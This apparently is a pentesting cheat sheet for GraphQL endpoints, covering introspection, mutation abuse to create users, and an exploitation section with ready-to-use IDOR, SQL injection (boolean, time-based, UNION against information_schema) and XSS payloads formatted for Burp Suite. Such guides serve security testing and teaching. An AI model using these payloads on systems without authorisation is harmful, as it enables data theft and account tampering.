
# GraphQL Introspection

- As soon as you reach the GraphQL endpoint, paste this code: Go to GraphQL Introspection Code node.
- After that, go to [https://graphql-kit.com/graphql-voyager/](https://graphql-kit.com/graphql-voyager/) and paste the output you got from the code into the introspection section.
- Change Schema -> Introspection -> Paste (Paste introspection output).

**Note:** The usage in Burp Suite is different from using a GraphQL GUI website. On the website, you write the query like this:
```graphql
{
  users {
    id
    name
    email
  }
}
```
But in Burp Suite, everything has to be on the same line, and you separate fields like `id` and `name` with `\n`. Also, you must start the query with the word `query`, like this:
```json
{"query":"query { users { id\nname\nemail } }"}
```

# GraphQL Mutation

- Find the available mutation name. Usually, it will be something like: `createUser`, `registerUser`, or `signUp`.
- To find the mutation name, you need to write this code: Go to Mutation Code node.

Example:  
If you found a mutation called `createUser` and its input is `createUserInput`, you can write this code to know what fields are available:

```graphql
{
  __type(name: "createUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

Let’s assume the outputs are `name`, `email`, and `password`. We can write this code to add a user with those values:

```graphql
mutation {
  createUser(input: {name: "Ahmed", email: "ahmed@example.com", password: "123456"}) {
    users {
      id
      name
      email
    }
  }
}
```

In Burp:
- Set the Content-Type header to: `application/json`
- Use this payload:
```json
{"query": "mutation { createUser(input: { name: \"Ahmed\", email: \"ahmed@example.com\", password: \"123456\" }) { id name email } }"}
```

Then check the response: If the server returns the requested data (like id, name, email), then the mutation worked successfully.

---

# GraphQL Exploitation Scenarios

## Important Notes:
- If you want to include quotation marks inside a string, you need to use `\"` instead of `"` to avoid conflicts.
- To add special characters like `"` or `\n`, use the backslash `\`.
- If the string inside the query contains quotation marks, escape them with `\`.

Example:
```json
{"query": "{ user(name: \"Exp8Bits\") { id name email } }"}
```

To add a new line:
```json
{"query": "{ user(id: 1) { name \n email } }"}
```

To include `\"` or `\`, escape it:
```json
{"query": "{ user(id: \"123\") { name email } }"}
```

---

## 1) Insecure Direct Object Reference (IDOR):

- Try to access another user's information by modifying the `id` or any identifier in the query.

Example:
```json
{"query":"{ user(id:2) { id name email } }"}
```

If you can see another user's data, it means the server is not performing proper authorization checks, which is an IDOR vulnerability.

---

## 2) SQL Injection:

- If the GraphQL query interacts with the database insecurely, you might retrieve or manipulate unauthorized data.

Original query:
```json
{"query":"{ user(id: 1) { id name email } }"}
```

Boolean-Based (Burp Suite):
```json
{"query":"{ user(id: \"1' OR '1'='1\") { id name email } }"}
```

Time-Based (Burp Suite):
```json
{"query":"{ user(id: \"1' AND IF(1=1, SLEEP(5), 0) --\") { id name email } }"}
```

Another Time-Based:
```json
{"query":"{ user(username: \"admin' and SLEEP(5) -- -\") {id} }"}
```

Union Injection (Burp Suite):
```json
{"query":"{ user(username: \"x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -\") {username} }"}
```

Browser/GUI version:
```graphql
{
  user(id: "1' OR '1'='1") {
    id
    name
    email
  }
}
```

---

## 3) Cross-Site Scripting (XSS):

- If the application reflects user input (like name, email), try injecting JavaScript code.

Original:
```json
{"query":"{ user(id: 1) { id name email } }"}
```

Injected:
```json
{"query":"{ user(id: \"<script>alert('XSS Attack!')</script>\") { id name email } }"}
```

If the server doesn’t sanitize output, the script will execute in the browser when the data is displayed.
```
